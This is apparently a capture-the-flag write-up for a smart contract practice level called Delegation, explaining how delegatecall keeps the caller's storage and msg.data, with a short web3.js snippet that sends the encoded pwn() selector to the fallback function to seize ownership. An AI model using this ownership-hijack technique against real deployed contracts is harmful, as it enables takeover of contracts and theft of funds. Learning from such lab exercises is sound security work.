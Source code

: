 # Day 6 - Delegation

DelegateCall means you take the implementation logic of the function in the contract you're making this call to but using the storage of the calling contract. Since msg.sender, msg.data, msg.value are all preserved when performing a DelegateCall, you just needed to pass in a malicious msg.data i.e. the encoded payload of pwn() function to gain ownership of the Delegation contract.

Invoke the fallback function in Delegation contract to delegatecall `pwn()`

```js
const data = web3.eth.abi.encodeFunctionSignature({
	name: "pwn",
	type: "function",
	inputs: [],
});

// contract.sendTransaction will invoke callback function in Delegation.sol
await contract.sendTransaction({ data });
```
